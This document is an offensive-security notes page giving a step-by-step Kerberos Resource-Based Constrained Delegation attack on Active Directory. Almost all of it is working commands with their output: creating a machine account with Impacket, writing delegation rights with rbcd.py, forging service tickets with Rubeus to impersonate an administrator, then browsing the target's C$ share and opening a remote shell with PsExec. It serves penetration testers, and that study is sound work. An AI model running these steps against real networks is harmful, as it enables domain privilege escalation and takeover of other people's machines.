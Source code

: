 ```yaml
---
title : "RBCD-attack"
# pre : ' '
description : "Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)."
date : 2021-02-17T15:54:06+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Kerberos Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)

Resource-Based Constrained Delegation - Generic write abuse.

## Installation

```plain
git clone https://github.com/tothi/rbcd-attack
```

### Rubeus.exe

{{%attachments title="Related files" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Abusing

#### Create the computer object needed for the operation

```plain
$ addcomputer.py -computer-name 'RECEPTION$' -computer-pass JteYeCym2JxkH -dc-ip 10.10.10.10 offsec.nl/jane:'Welkom123!'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account RECEPTION$ with password JteYeCym2JxkH.
```

#### Set rights for impersonation

```plain
$ ./rbcd.py -f RECEPTION -t WIN10-TARGET -dc-ip 10.10.10.10 offsec.nl\\jane:'Welkom123!'
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against WIN10-TARGET$
[*] Initializing LDAP connection to 10.10.10.10
[*] Using offsec.nl\jane account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `RECEPTION` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `WIN10-TARGET`
[*] Delegation rights modified succesfully!
[*] RECEPTION$ can now impersonate users on WIN10-TARGET$ via S4U2Proxy
```

#### Create RC4-HMAC hash for computer object

```plain
Z:\> .\Rubeus.exe hash /password:JteYeCym2JxkH /user:RECEPTION /domain:offsec.nl

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : JteYeCym2JxkH
[*] Input username             : RECEPTION
[*] Input domain               : offsec.nl
[*] Salt                       : offsec.nlRECEPTION
[*]       rc4_hmac             : C3CA46DA95A2B9CAB36C31A3202CE355
[*]       aes128_cts_hmac_sha1 : D9C29470D497E61186549BCC5517E736
[*]       aes256_cts_hmac_sha1 : C4CB81B0428A8384445C981575393BADC6F468396B44D39F166754C5A896FD8A
[*]       des_cbc_md5          : 528F4FE3A219FB6E
```

#### Impersonate any user from the Active Directory

```plain
PS z:\> .\rubeus.exe s4u /user:RECEPTION$ /rc4:C3CA46DA95A2B9CAB36C31A3202CE355 /impersonateuser:JOHNDO-ADM /msdsspn:cifs/WIN10-TARGET.offsec.nl /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: C3CA46DA95A2B9CAB36C31A3202CE355
[*] Building AS-REQ (w/ preauth) for: 'offsec.nl\RECEPTION$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5jCCBO[...REDACTED...]J2aWNlcy5ubA==


[*] Action: S4U

[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2self request for: 'RECEPTION$@offsec.nl'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'JOHNDO-ADM@offsec.nl' to 'RECEPTION$@offsec.nl'
[*] base64(ticket.kirbi):

      doIJHjCCCRqgAwI[...REDACTED...]DAgEBoQgwBhsET0NEJA==

[*] Impersonating user 'JOHNDO-ADM' to target SPN 'cifs/WIN10-TARGET.offsec.nl'
[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2proxy request for service: 'cifs/WIN10-TARGET.offsec.nl'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/WIN10-TARGET.offsec.nl':

      doIKAjCCCf6gAw[...REDACTED...]VJWSUNFUy5OTA==
[+] Ticket successfully imported!
```

#### Check ticket is successfully imported

```plain
PS z:\> klist

Current LogonId is 0:0x7b698

Cached Tickets: (1)

#0>     Client: JOHNDO-ADM @ offsec.nl
        Server: cifs/WIN10-TARGET.offsec.nl @ offsec.nl
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40210000 -> forwardable pre_authent name_canonicalize
        Start Time: 2/17/2021 15:12:51 (local)
        End Time:   2/18/2021 1:12:51 (local)
        Renew Time: 0
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

#### Browse the system using the ticket

```plain
PS z:\> dir \\WIN10-TARGET.offsec.nl\c$

    Directory: \\WIN10-TARGET.offsec.nl\c$

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/27/2018  11:39 AM                Intel
d-----         5/23/2020   8:02 AM                PerfLogs
d-r---         8/19/2020   1:20 PM                Program Files
d-r---         7/10/2020  10:30 AM                Program Files (x86)
da----          2/4/2021   8:11 AM                Temp
d-r---         9/29/2020  10:33 AM                Users
d-----         2/17/2021   2:34 PM                Windows
```

#### Run PsExec

```plain
PS z:\> PsExec.exe \\WIN10-TARGET.offsec.nl cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.18363.1316]
(c) 2019 Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32>whoami
offsec.nl\JOHNDO-ADM
```

## URL List

* [iRED.team - Kerberos Resource-based Constrained Delegation: Computer Object Take Over](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [Github.com - Abusing Kerberos Resource-Based Constrained Delegation](https://github.com/tothi/rbcd-attack)
* [harmj0y.net - A case study in wagging the dog computer takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
